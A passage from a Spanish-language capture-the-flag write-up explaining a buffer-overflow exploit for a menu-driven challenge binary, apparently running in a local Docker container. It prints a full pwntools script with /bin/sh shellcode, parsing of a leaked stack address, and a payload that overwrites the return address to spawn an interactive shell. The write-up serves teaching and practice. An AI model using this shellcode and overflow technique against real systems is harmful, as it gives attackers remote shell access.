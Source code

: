 Decidí desarrollar el `exploit` en `Python`, en conjunto con la librería [_Pwntools_](https://github.com/Gallopsled/pwntools) que facilita este proceso. El `exploit` se ve de la siguiente manera:

```python
#!/usr/bin/env python3

# ------------------
# Ookami
# Hackers Fight Club
# ------------------

from pwn import remote,p64

SHELLCODE = b'\x48\xB8\x2F\x62\x69\x6E\x2F\x73\x68\x00\x50\x54\x5F\x31\xC0\x50\xB0\x3B\x54\x5A\x54\x5E\x0F\x05'

docker = '172.17.0.2:8080'
host, port = docker.split(':')

r = remote(host, int(port))
r.recvuntil(b'>> ')
r.sendline(b'2')
r.recvuntil(b'>> ')
r.sendline(b'3')
r.recvuntil(b'[')
addr = int(r.recv(14).decode(),16)
r.recvuntil(b'(y/n): ')

payload = b'AA'+SHELLCODE+b'B'*32+p64(addr)

r.sendline(payload)
r.recv(52)
r.interactive()
r.close()
```

La mayor parte de este, es establecer la conexión con el `servidor:puerto` indicados, simular la interacción con el **menú** para comprar el objeto y capturar la dirección filtrada.
Sabiendo que la dirección siempre mide 14 caracteres (o `bytes`) y se encuentra entre corchetes, no es dificil utilizar las funciones `recvuntil` y `recv` implementadas por `pwntools` para realizarlo y convertirla a un entero.

Por otra parte, la creación del `payload` principal fue de la siguiente manera:

1. **2** caracteres basura por la diferencia con la dirección filtrada.
2. Cadena de `bytes` del `Shellcode` seleccionado de **24** `bytes`.
3. **32** caracteres basura necesarios para completar el `offset` necesario de **58**.
4. `Dirección de retorno` en formato `Little-Endian`, de lo que se encarga la función `p64`. Es decir, por poner un ejemplo, convierte un entero `0x7fffa2aecf60` a una cadena de `bytes`: `b'\x60\xcf\xae\xa2\xff\x7f\x00\x00'`.

Finalmente, tras enviar este `payload` y recibir la despedida del programa, volvemos interactivo el programa para simular una `línea de comandos`.
